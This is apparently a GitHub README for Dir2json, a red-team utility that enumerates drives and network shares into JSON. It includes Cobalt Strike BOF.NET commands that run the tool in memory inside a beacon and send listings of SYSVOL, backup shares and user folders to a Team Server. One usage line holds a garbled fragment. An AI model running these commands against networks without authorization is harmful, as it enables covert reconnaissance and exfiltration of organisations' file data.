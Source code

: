 # Dir2json
Dir2json is a .NET utility which recursively lists drives or network shares storing the directory listing including various attributes in a (gzipped) .json file. Attributes that are collected are:
- Name of the file or directory
- Size of the file in bytes
- Last Modified date of the file or directory
- Attributes of the file or directory ([.NET FileAttributes](https://learn.microsoft.com/en-us/dotnet/api/system.io.fileattributes#fields))

Dir2json can either be executed from the commandline, or from memory in a Cobalt Strike beacon using @CCob's [BOF.NET](https://github.com/CCob/BOF.NET) where Cobalt Strike's in-memory download functionality is used to retrieve the resulting file listing.

As a .json file is not as easy to search through, the `Json2csv.ps1` script converts the (hierarchical) JSON structure to a (flat) CSV file which can be easily queried using PowerShell (examples in `CheatSheet.ps1`) or using tools like `grep`.

This utility has been developed for use in Red Team assignments to be able to efficiently perform offline searches for interesting files and directories. At the BITSADMIN blog an in-depth article on this tool is available: [Digging for Secrets on Corporate Shares](https://blog.bitsadmin.com/blog/digging-for-secrets).

Latest binaries available from the [Releases](https://github.com/bitsadmin/dir2json/releases) page.


## Demos
### In-memory execution in Cobalt Strike**

[cobaltstrike.mp4](https://blog.bitsadmin.com/assets/img/20230403_digging-for-secrets/cobaltstrike.mp4)

### Convert JSON to CSV and query CSV

[powershell.mp4](https://blog.bitsadmin.com/assets/img/20230403_digging-for-secrets/powershell.mp4)

### Example queries
A cheat sheet with various PowerShell queries generating, importing and querying the directory listing can be found in the `CheatSheet.ps1` file in this repository. Additionally, `CheatSheet.sh` is available to perform similar queries in bash.


## Usage
### Cobalt Strike 
```shell
bofnet_init
bofnet_load /path/to/Dir2json/Dir2json.dll
bofnet_execute Dir2json.Program C:\ cs
bofnet_shutdown
```

### Commandline
```cmd
dir2json.exe C:\ drive_C.json.gz
```

### Usage
```
== Dir2json v1.0 ==
Twitter: @bitsadmin
Website: https://github.com/bitsadmin/dir2json


Usage: Dir2json.exe drive:path output [/MaxDepth=value] [/EntriesPerFile=value] [/FollowSymlinks]
    drive:path
            Specifies drive and/or directory

    output
            Output possibilities
             [filename]     Save output to disk. If the .gz extension is used, it is first compressed
                            E.g. dir2json.json saves JSON to disk; dir2json.json.gz, saves gzip(JSON) to disk
             con            Outputs base64(gzip(JSON)) to console
             conraw         Outputs JSON to console
             cs             Downloads the compressed gzip to the Cobalt Strike Team Server using the
                            undocumented download functionality
             csraw          Downloads the plain JSON to the Cobalt Strike Team Server using the
                            undocumented download functionality

    [/MaxDepth=value]
            Only recurses until a certain depth from the specified directory. Default: 999. Setting the value to 0
            also makes it set to depth 999.

    [/EntriesPerFile=value]
            Maximum entries per file (x 1000). Makes sure that memory is periodically flushed. Default: 0 meaning GêP
            For example 10 means that after 10.000 entries the file will be saved/downloaded and memory cleaned up.

    [/FollowSymlinks]
            By default symlinks are not followed because they could lead to infinite loops resulting in a crash of the
            application. This flag enables following symlinks. In combination with the /MaxDepth such infinite loop can
            be avoided.


Examples:
    Enumerate drive C and store in compressed file drive_C.json.gz in the current directory
    dir2json C:\ drive_C.json.gz

    Enumerate the SYSVOL share on DC01, following sybmolic links and splitting the output in 10.000 entries per file
    dir2json \\DC01\SYSVOL\ C:\Temp\SYSVOL.json /FollowSymlinks /MaxDepth=32 /EntriesPerFile=10

    Enumerate the C:\Users directory with maximum recursion depth of 5 and output the JSON to the console window
    dir2json C:\Users\ conraw /MaxDepth=5


    Load BOFNET and Dir2json in Cobalt Strike for in-memory execution
    bofnet_init
    bofnet_load /path/to/Dir2json/Dir2json.dll

    Enumerate drive C splitting the output up in 100.000 entries per file, having the
    resulting compressed .json.gz files downloaded to the Team Server
    bofnet_execute Dir2json.Program C:\ cs /EntriesPerFile=100

    Enumerate the Backup share on MYSERVER downloading the compressed .json.gz file to the Team Server
    bofnet_execute Dir2json.Program \\MYSERVER\Backup\ cs

    Enumerate the C:\Users\bitsadmin directory and download the .json file to the Team Server
    bofnet_execute Dir2json.Program C:\Users\bitsadmin\ csraw

    Enumerate drive X storing the output on the machine running the beacon in C:\Temp\Drive_X.json.gz
    bofnet_execute Dir2json.Program C:\ C:\Temp\Drive_X.json.gz
```


## Notes
- Before the full directory listing is stored on disk, it is kept in memory. Even though the storage is quite efficient, on large filesystems it can use quite some memory and if the system does not have a lot of memory could lead to OutOfMemory exceptions. For that reason the `/EntriesPerFile=X` parameter is available which downloads the results thusfar and frees up memory before moving on. The `Json2csv.ps1` script recognizes when a file has been split and merges the output back into a single .csv.
- For some reason in some circumstances (which I was not able to debug because it was a client environment) executing dir2json against `C:\` through BOF.NET just stops execution after a while without showing any message while the beacon just stays alive. In those cases the instead of collecting the files of the full `C:\` drive, create a file listing of the different folders (e.g. `C:\Users\`, `"C:\Program Files\"` individually and merge the outputs later.


## Future work
- Support for enumeration of folders and directories on SharePoint sites (`Microsoft.SharePoint.Client` .NET namespace)
- Support for the Windows registry
- Create a more memory-efficient Json2Csv converter (e.g. in Python)
